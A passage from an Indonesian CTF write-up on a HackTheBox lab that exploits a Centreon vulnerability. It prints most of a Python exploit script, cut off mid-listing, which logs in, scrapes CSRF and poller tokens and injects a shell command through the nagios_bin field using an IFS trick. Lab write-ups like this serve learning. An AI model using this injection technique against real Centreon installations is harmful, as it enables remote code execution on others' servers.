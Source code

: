 IFS=.;haha=echo.permenmilkita;$IFS

Mari kita coba jalankan di script yang sudah kita modifikasi sesuai credentials yang sudah kita dapatkan tadi, poller ID, poller name, dan option lainnya. Kita akan memainkan paramter nagios_bin untuk melakukan RCE. Perlu diperhatikan bahwa script yang disediakan penemu CVE tidak dapat digunakan mentah mentah. Terlebih lagi saat pengerjaan box ini, penulis menemukan banyak orang iseng yang mengganti poller ID milik peserta lain sehingga mengacaukan progress yang sudah dikerjakan dan menimbulkan error yang tidak seharusnya terjadi.

```
#!/usr/bin/env python3
import requests
import sys
import warnings
from bs4 import BeautifulSoup
 
# turn off BeautifulSoup warnings
warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
 
 
url = "http://10.10.10.157/centreon"
username = "admin"
password = "password1"
ip = "10.10.14.71"
port = "1234"
 
 
request = requests.session()
print("[+] Retrieving CSRF token to submit the login form")
page = request.get(url+"/index.php")
html_content = page.text
soup = BeautifulSoup(html_content)
token = soup.findAll('input')[3].get("value")
 
login_info = {
    "useralias": username,
    "password": password,
    "submitLogin": "Connect",
    "centreon_token": token
}
login_request = request.post(url+"/index.php", login_info)
print("[+] Login token is : {0}".format(token))
if "Your credentials are incorrect." not in login_request.text:
    print("[+] Logged In Sucssfully")
    print("[+] Retrieving Poller token")
 
    poller_configuration_page = url + "/main.get.php?p=60901"
    get_poller_token = request.get(poller_configuration_page)
    poller_html = get_poller_token.text
    poller_soup = BeautifulSoup(poller_html)
    poller_token = poller_soup.findAll('input')[24].get("value")
    print("[+] Poller token is : {0}".format(poller_token))
 
    payload_info = {
        "name": "Central",
        "ns_ip_address": "127.0.0.1",
        # this value should be 1 always
        "localhost[localhost]": "1",
        "is_default[is_default]": "0",
        "remote_id": "",
        "ssh_port": "22",
        "init_script": "centengine",
        # this value contains the payload , you can change it as you want
        "nagios_bin": "IFS=.;haha=echo.permenmilkita;$haha",
        "nagiostats_bin": "/usr/sbin/centenginestats",
```